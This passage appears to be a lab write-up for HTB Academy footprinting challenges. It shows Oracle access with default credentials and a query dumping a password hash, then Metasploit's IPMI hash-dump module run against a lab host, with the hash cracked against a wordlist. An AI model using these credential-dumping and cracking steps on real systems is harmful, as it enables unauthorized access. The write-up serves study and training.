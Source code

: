     ```bash
    sqlplus scott/tiger@10.129.168.163/XE as sysdba
    ```

    Then we can follow the module again by using this commands.

    ```bash
    SQL> select name, password from sys.user$ where name = 'DBSNMP';
    ```

    Here the output.

    ```bash
        NAME                           PASSWORD
    ------------------------------ ------------------------------
    DBSNMP                         E066D214D5421CCC
    ```

# IPMI
## Port
- 623/UDP

## Challenges
1. What username is configured for accessing the host via IPMI?

    We can solve this by using metasploit. I used this module `auxiliary/scanner/ipmi/ipmi_dumphashes`. Here the output.
    ```bash
    msf > use auxiliary/scanner/ipmi/ipmi_dumphashes
    msf auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.149.184
    rhosts => 10.129.149.184
    msf auxiliary(scanner/ipmi/ipmi_dumphashes) > run
    [+] 10.129.149.184:623 - IPMI - Hash found: admin:91e2dda882000000296dd84b799878e7255306d6e870ba74372b7c2639469783ad53f46dc71514c0a123456789abcdefa123456789abcdef140561646d696e:885a5a9ad55fcb45f21adff89597fc15379d3725
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    msf auxiliary(scanner/ipmi/ipmi_dumphashes) >
    ```
2. What is the account's cleartext password?

    We can solve this by add this before run the metasploit.

    ```bash
    msf auxiliary(scanner/ipmi/ipmi_dumphashes) > set PASS_FILE /home/mrwhok/ctf/HTB-Academy/footprinting/rockyou.txt
    ```

    Here the result.

    ```bash
    [+] 10.129.149.184:623 - IPMI - Hash for user 'admin' matches password 'trinity'
    ```
